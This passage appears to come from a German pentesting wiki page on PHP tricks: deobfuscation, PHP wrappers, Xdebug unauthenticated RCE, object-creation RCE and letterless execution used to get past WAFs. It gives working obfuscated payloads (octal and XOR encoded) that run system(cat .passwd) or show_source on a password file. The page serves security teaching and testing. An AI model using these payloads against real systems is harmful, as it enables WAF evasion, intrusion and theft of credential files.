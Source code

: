 ### Deobfuskation von PHP-Code

Sie können das **Web**[ **www.unphp.net**](http://www.unphp.net) **verwenden, um PHP-Code zu deobfuskieren.**

## PHP-Wrapper & Protokolle

PHP-Wrapper und Protokolle könnten es Ihnen ermöglichen, **Schreib- und Lese-Schutzmaßnahmen** in einem System zu umgehen und es zu kompromittieren. Für [**weitere Informationen überprüfen Sie diese Seite**](../../../pentesting-web/file-inclusion/#lfi-rfi-using-php-wrappers-and-protocols).

## Xdebug nicht authentifizierte RCE

Wenn Sie sehen, dass **Xdebug** in einer `phpconfig()`-Ausgabe **aktiviert** ist, sollten Sie versuchen, RCE über [https://github.com/nqxcode/xdebug-exploit](https://github.com/nqxcode/xdebug-exploit) zu erhalten.

## Variable Variablen
```php
$x = 'Da';
$$x = 'Drums';

echo $x; //Da
echo $$x; //Drums
echo $Da; //Drums
echo "${Da}"; //Drums
echo "$x ${$x}"; //Da Drums
echo "$x ${Da}"; //Da Drums
```
## RCE durch Missbrauch von neuen $\_GET\["a"]\($\_GET\["b")

Wenn Sie auf einer Seite **ein neues Objekt einer beliebigen Klasse erstellen können**, könnten Sie in der Lage sein, RCE zu erlangen. Überprüfen Sie die folgende Seite, um zu lernen, wie:

{% content-ref url="php-rce-abusing-object-creation-new-usd_get-a-usd_get-b.md" %}
[php-rce-abusing-object-creation-new-usd\_get-a-usd\_get-b.md](php-rce-abusing-object-creation-new-usd_get-a-usd_get-b.md)
{% endcontent-ref %}

## PHP ohne Buchstaben ausführen

[https://securityonline.info/bypass-waf-php-webshell-without-numbers-letters/](https://securityonline.info/bypass-waf-php-webshell-without-numbers-letters/)

### Verwendung von Oktal
```php
$_="\163\171\163\164\145\155(\143\141\164\40\56\160\141\163\163\167\144)"; #system(cat .passwd);
```
### **XOR**
```php
$_=("%28"^"[").("%33"^"[").("%34"^"[").("%2c"^"[").("%04"^"[").("%28"^"[").("%34"^"[").("%2e"^"[").("%29"^"[").("%38"^"[").("%3e"^"["); #show_source
$__=("%0f"^"!").("%2f"^"_").("%3e"^"_").("%2c"^"_").("%2c"^"_").("%28"^"_").("%3b"^"_"); #.passwd
$___=$__; #Could be not needed inside eval
$_($___); #If ¢___ not needed then $_($__), show_source(.passwd)
```
### XOR einfacher Shellcode
